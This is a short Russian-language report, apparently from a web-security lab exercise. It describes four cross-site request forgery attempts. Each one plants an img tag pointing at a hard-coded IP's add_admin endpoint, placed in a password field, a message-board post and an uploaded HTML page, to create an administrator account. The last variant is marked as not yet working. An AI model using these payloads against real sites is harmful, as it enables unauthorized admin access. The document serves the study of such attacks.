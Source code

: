 ## Отчет

## Атака 1
При создании нового пользователя можно ввести в поле для пароля `<img src="http://92.63.179.34/add_admin?username=user&password=user&isAdmin=yes&submit=Add+User">`, и пользователь успешно создастся

## Атака 2
В message board админу можно отправить `<img src="http://92.63.179.34/add_admin?username=user&password=user&isAdmin=yes&submit=Add+User">`!!! и пользователь создастся

## Атака 3
В форму для отправки файлов можно вставить html страницу с таким кодом: `<img src="http://92.63.179.34/add_admin?username=user&password=user&isAdmin=yes&submit=Add+User">`

## Атака 4
`<img src="http://92.63.179.34/add_admin?{'username':'userr','password':'userr','isAdmin':'yes','submit':'Add User'}">`
пока не работает
